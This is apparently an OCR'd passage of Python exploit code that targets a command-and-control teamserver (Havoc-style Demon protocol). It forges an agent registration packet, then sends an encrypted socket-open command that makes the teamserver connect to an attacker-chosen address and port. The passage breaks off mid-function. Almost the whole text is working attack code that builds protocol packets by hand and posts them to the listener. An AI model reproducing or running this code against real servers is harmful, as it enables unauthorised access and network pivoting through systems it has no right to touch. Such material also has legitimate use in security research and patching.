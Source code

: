 ```

def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data =  b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent ...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")

def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"

    # SOCKET_COMMAND_OPEN / 16
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"

    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"
    
    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    forward_port = int_to_bytes(target_port)

    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to open socket on the teamserver ...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
```